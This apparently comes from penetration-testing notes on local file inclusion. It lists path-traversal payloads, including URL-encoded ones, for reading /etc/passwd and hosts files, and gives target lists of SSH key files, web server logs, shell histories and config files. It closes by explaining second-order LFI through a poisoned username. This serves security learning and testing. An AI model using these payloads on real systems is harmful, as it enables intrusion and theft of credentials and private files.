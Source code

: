 1. View users on machine
2. Search for SSH Keys
3. Search for passwords in log or configuration files (.htaccess, config.php)

```http
/../../../../../../../../../etc/passwd
../../../../../../../../../etc/passwd
../../../../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\..\..\..\windows\system32\drivers\etc\hosts

/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/windows/system32/drivers/etc/hosts
\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\windows\system32\drivers\etc\hosts
```

##### SSH Keys
```bash
id_rsa
id_ecdsa
id_ecdsa_sk
id_ed25519
id_ed25519_sk
id_dsa

authorized_keys
id_rsa.keystore
id_rsa.pub
known_hosts
```

##### HTTPD, Apach2, Nginx logs
```bash
/var/log/apache/access.log 
/var/log/apache2/access.log 
/var/log/apache/access_log 
/var/log/apache2/access_log
/var/log/access_log
/var/log/nginx/access.log 
/var/log/nginx/access_log 
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access. log 
/opt/apache2/logs/access_log
/opt/apache2/logs/access.log
/opt/apache/logs/access_log
/opt/apache/logs/access.log
```

##### IIS
```bash
C:\inetpub\logs\LogFiles\W3SVC1\
C:\inetpub\wwwroot\web.config
```

##### Linux user specific
```bash
.bash_history
.mysql_history
.my.cnf
```

##### Windows
```powershell
c:\apache\php\php.ini 
c:\xampp\apache\bin\php.ini  
c:\xampp\apache\logs\access.log
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
```

## Second-Order Attacks

As we can see, LFI attacks can come in different shapes. Another common, and a little bit more advanced, LFI attack is a `Second Order Attack`. This occurs because many web application functionalities may be insecurely pulling files from the back-end server based on user-controlled parameters.

For example, a web application may allow us to download our avatar through a URL like (`/profile/$username/avatar.png`). If we craft a malicious LFI username (e.g. `../../../etc/passwd`), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar.

In this case, we would be poisoning a database entry with a malicious LFI payload in our username. Then, another web application functionality would utilize this poisoned entry to perform our attack (i.e. download our avatar based on username value). This is why this attack is called a `Second-Order` attack.

Developers often overlook these vulnerabilities, as they may protect against direct user input (e.g. from a `?page` parameter), but they may trust values pulled from their database, like our username in this case. If we managed to poison our username during our registration, then the attack would be possible.

Exploiting LFI vulnerabilities using second-order attacks is similar to what we have discussed in this section. The only variance is that we need to spot a function that pulls a file based on a value we indirectly control and then try to control that value to exploit the vulnerability.
